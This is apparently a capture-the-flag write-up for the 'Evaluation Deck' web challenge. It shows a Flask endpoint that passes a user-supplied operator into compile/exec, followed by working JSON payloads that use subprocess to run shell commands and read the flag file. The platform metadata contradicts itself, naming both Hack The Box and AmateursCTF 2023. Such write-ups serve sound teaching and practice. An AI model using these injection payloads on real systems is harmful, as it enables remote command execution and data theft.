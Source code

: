 ```yaml
---
title: "Evaluation Deck"
date: 2022-10-28 00:00:00 +0800
categories: [Walkthrough, Hack The Box]
tags: [Hack The Boo 2022]
---
```


## Details
- Platform: [AmateursCTF](/categories/hack-the-box/)
- Event: [AmateursCTF 2023](/tags/hack-the-boo-2022/)

## Setting
>  A powerful demon has sent one of his ghost generals into our world to ruin the fun of Halloween. The ghost can only be defeated by luck. Are you lucky enough to draw the right cards to defeat him and save this Halloween?

## Walkthrough
Firstly I just played the game to understand the intended functionality.
![img1](/assets/img/Screenshot 2022-10-23 at 01.05.43.png)
_Evaluation Deck - Mid Game_

To be honest, I had no idea what was going on at first. I turned over some cards and the ghost would seemingly get dealt some damage or for some reason restore its health. I couldnt see any correlation to the damage or health restoration in the GUI, so I decided to look for answers in the source code.
![img2](/assets/img/Screenshot 2022-10-23 at 01.06.00.png)
_Evaluation Deck - Victory State_

Looking through the source code, I found power and operator attributes which looked interesting. It seemed like they were being used to calculate damage to the ghost. The `operator` attribute for decreasing or adding health, and the `power` attribute to specify how much. If that calculation is done on the server, this could lead to some code injection.
![img3](/assets/img/Pasted image 20221028162029.png)
_power and operator attributes!_

I tested it out by changing the `power` and `operator` attribute values and I could now control the game. I was now able to lose. It's actually really difficult to lose this game 😂

![img4](/assets/img/Screenshot 2022-10-23 at 01.07.54.png)
_Evaluation Deck - Game Over State_

I couldn't find any Javascript scripts doing any health management logic, so I checked out the requests made. I tapped a card and saw that a request was made to `/api/get_health` with the following JSON payload:
```json
{
	"current_health":"100",
	"attack_power":"20",
	"operator":"-"
}
```

If you check the provided code, you can see that the application is made with Python and Flask, but you could also find this out with some OSINT and/or Enumeration.

Time to try some code injection. You could argue that `attack_power` is a number so it might be limited to or parsed as a number on the backend, but you could also argue that there is only 2 operaters used in the game and there might be a filter to see if the input is one of those 2 operators. So going in blind, I would just try both.
But as we have the code, we can see that the operator has no restrictions on it.

```python
@api.route('/get_health', methods=['POST'])
def count():
    if not request.is_json:
        return response('Invalid JSON!'), 400

    data = request.get_json()

    current_health = data.get('current_health')
    attack_power = data.get('attack_power') #← html attribute 1 
    operator = data.get('operator') #← html attribute 2
    
    if not current_health or not attack_power or not operator:
        return response('All fields are required!'), 400

    result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec') #← compile() is used. major red flag!
        exec(code, result)
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

the f-string `f'result = {int(current_health)} {operator} {int(attack_power)}'` shows the operator variable is plopped in the middle with no filtering or casting, so I crafted a python payload to test if I could run some system level commands:

```json
{
	"current_health":"100",
	"attack_power":"78",
	"operator":"if False else __import__('subprocess').run(['ls', '../', '-la'], capture_output=True).stdout.decode('ASCII')#"
}
```

and I could!

```json
"message": "total 72\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 .\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 ..\ndrwxr-xr-x 1 root root 4096 Oct 21 15:07 app\ndrwxr-xr-x 1 root root 4096 Oct 14 00:44 bin\ndrwxr-xr-x 5 root root 360 Oct 22 15:45 dev\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 etc\n-rw-r--r-- 1 root root 32 Oct 21 13:33 flag.txt\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 home\ndrwxr-xr-x 1 root root 4096 Oct 14 00:44 lib\ndrwxr-xr-x 5 root root 4096 Aug 9 08:47 media\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 mnt\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 opt\ndr-xr-xr-x 376 root root 0 Oct 22 15:45 proc\ndrwx------ 1 root root 4096 Oct 21 15:06 root\ndrwxr-xr-x 1 root root 4096 Oct 22 15:45 run\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 sbin\ndrwxr-xr-x 2 root root 4096 Aug 9 08:47 srv\ndr-xr-xr-x 13 root root 0 Oct 22 15:45 sys\ndrwxrwxrwt 1 root root 4096 Oct 22 15:45 tmp\ndrwxr-xr-x 1 root root 4096 Oct 21 15:06 usr\ndrwxr-xr-x 1 root root 4096 Oct 14 00:44 var\n"
```

Now I know I have access to the server, I could try to get a reverse shell, but knowing where the flag is due to the provided code, I could just change the system command to `cat` the flag (print it out to the standard output).

```json
{
	"current_health":"100",
	"attack_power":"78",
	"operator":"if False else __import__('subprocess').run(['cat', '../flag.txt'], capture_output=True).stdout.decode('ASCII')#"
}
```

and the response sends back the flag!

```json
{
	"message": "HTB{c0d3_1nj3ct10ns_4r3_Gr3at!!}"
}
```

#### Alternative Payload
Looking at the backend code, I know that the variable `result` stores the message that the server is sending back to me:
```python
result = {}
    try:
        code = compile(f'result = {int(current_health)} {operator} {int(attack_power)}', '<string>', 'exec') #← compile() is used. red flag!
        exec(code, result) #← exec() is used with compile(). major red flag!
        return response(result.get('result'))
    except:
        return response('Something Went Wrong!'), 500
```

So I could alternatively use a payload where I set `result` to the contents of the flag:
```json
{
	"current_health":"100",
	"attack_power":"65",
	"operator":";result=open('../flag.txt').read()#"
}
```